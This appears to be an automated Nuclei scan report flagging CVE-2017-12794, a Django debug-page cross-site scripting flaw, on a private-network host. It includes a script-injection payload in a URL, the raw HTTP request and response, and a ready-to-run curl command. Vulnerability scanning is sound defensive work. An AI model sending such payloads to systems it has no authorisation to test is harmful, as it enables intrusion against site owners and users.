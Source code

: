 ### Django Debug Page - Cross-Site Scripting (CVE-2017-12794) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2017-12794**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/create_user/?username=%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:31 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Django Debug Page - Cross-Site Scripting |
| Authors | pikpikcu |
| Tags | xss, django, cve, cve2017 |
| Severity | medium |
| Description | Django 1.10.x before 1.10.8 and 1.11.x before 1.11.5 has HTML autoescaping  disabled in a portion of the template for the technical 500 debug page. Given the right circumstances, this allows a cross-site scripting attack. This vulnerability shouldn't affect most production sites since run with "DEBUG = True" is not on by default (which is what makes the page visible).
 |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2017-12794](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2017-12794) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /create_user/?username=%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 203
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/create_user/?username=<script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://twitter.com/sec715/status/1406779605055270914
- https://nvd.nist.gov/vuln/detail/cve-2017-12794
- https://www.djangoproject.com/weblog/2017/sep/05/security-releases/
- http://www.securitytracker.com/id/1039264

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36' 'http://192.168.198.179:8080/create_user/?username=%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)